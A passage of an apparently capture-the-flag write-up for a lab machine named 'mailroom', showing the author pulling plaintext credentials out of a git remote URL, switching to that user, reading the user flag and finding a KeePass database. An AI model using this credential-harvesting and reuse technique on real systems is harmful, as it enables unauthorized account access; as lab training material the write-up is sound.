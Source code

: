 Judging by the hostname, this seems like a Docker container:
```
$ hostname
7a6151ad8a3c
```

I am the `www-data` user, and it seems like tehre are no other users. Looking at the `/var/www` folder, i can see this contains the source code for the web applications:
```
ls /var/www
html
mailroom
staffroom
```

I know that staffroom is a git repository, and when i get config for that directory, it shows password for matthe:
```
$ git config -l
core.repositoryformatversion=0
core.filemode=true
core.bare=false
core.logallrefupdates=true
remote.origin.url=http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git
remote.origin.fetch=+refs/heads/*:refs/remotes/origin/*
branch.main.remote=origin
branch.main.merge=refs/heads/main
user.email=matthew@mailroom.htb
```

The *remote.origin.url* shows the credentials `matthew:HueLover83#` (URL decoded). Using this password, i can `su` to matthew:
```
tristan@mailroom:/dev/shm$ su matthew
Password: 
matthew@mailroom:/dev/shm$ 
```

And get the user flag:
```
$ cat user.txt 
94970a8b194b****
```

### Root
There is an interesting file in matthew's home directory:
```
$ ls -la personal.kdbx 
-rw-r--r-- 1 matthew matthew 1998 Mar 16 22:47 personal.kdbx
```

It is a [KeePass](https://www.google.com/search?client=firefox-b-e&q=keepass) password database:
```
$ file personal.kdbx 
personal.kdbx: Keepass password database 2.x KDBX
```
KeePass is a password manager. I can interact with it using `kpcli` command line tool:
```
$ kpcli --kdb personal.kdbx 
Please provide the master password: *************************
Couldn't load the file personal.kdbx: The database key appears invalid or else the database is corrupt.
```
